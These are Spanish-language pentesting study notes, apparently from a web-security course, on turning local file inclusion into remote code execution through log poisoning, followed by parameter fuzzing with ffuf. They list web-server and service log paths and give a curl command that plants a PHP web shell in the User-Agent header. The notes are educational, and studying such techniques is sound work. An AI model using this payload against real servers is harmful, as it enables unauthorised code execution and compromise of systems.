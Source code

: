 EN apache o ngnix encontramos bastantes archivos de log, como "access.log" "error.log" el acces.log contiene información sobre las consultas que se hacen al servidor, incluyendo las consultar "User-Agent" 

Nosotros deberemos incluid la vulnerabilidad "LFI", una vez que podamos leer los log con privilegios bajo, mientras los logs en apache debes tener mas privilegios.

Apache : - /var/log/apache2/

Windows : - C:\xampp\apache\logs\

Nginx : - /var/log/nginx/

Windows : C:\nginx\log\

Podriamos leer el log contenido direccones remotas, consultas, codigo de respuesta, el user ager.

Podemos envenenar el header "User-Agent" para cambiar la condiguración

```
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

Ahora esto contiene un código php expecificando (?cmd=id) 

Otra forma de utilizar esta misma tecnica es en sevicios

- /var/log/ssh.log
- /var/log/mail
- /var/log/vsftpd.log

## ESCANEO AUTOMÁTICO

Es esencial entender como funciona los ataques de inclusion de archivos y como noostros podemos crear avanzados payloads y usar tecnicas customizadas para ejecutar código remoto. Esto es porque en muchos casos, explotamos la vulnerabilidad, esto requiere un payload especifica para encontrar configuraciones especificas. Además cuando queremos conectarlo por un Waf o un Firewall, tenemos que tener aplicado y entender como funciona un payload especifico bloqueando los intentos de acceso y como funciona.

Si no prestamos atención al exploit en muchos casos. podemos hacer metodos automatizados para identificar este tipo de vulnerabilidades. Podemos utilizar herramientas de fuzzing para testear y hacer listas comunes y como funcionarian dependiendo la vulnerabilidad.

## PARAMETROS CON FUZZING

Los formularios de HTML se usan en las aplicaciones web "front-end" si queremos testear la seguridad. En muchos casos estas paginas estan expuestas, por elo mismo viene muy bien los parametros de fuzz

Por ejemplo podemos añadir "GET/POST" dentro de estos fuzzeos

```
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```

Una vez nosotros identificamos el aprametro y las formas que nosotros vamos a testear, podemos utilizar todo lo que hemos aprendido e identificar dichas vulnerabilidades y explotarlas

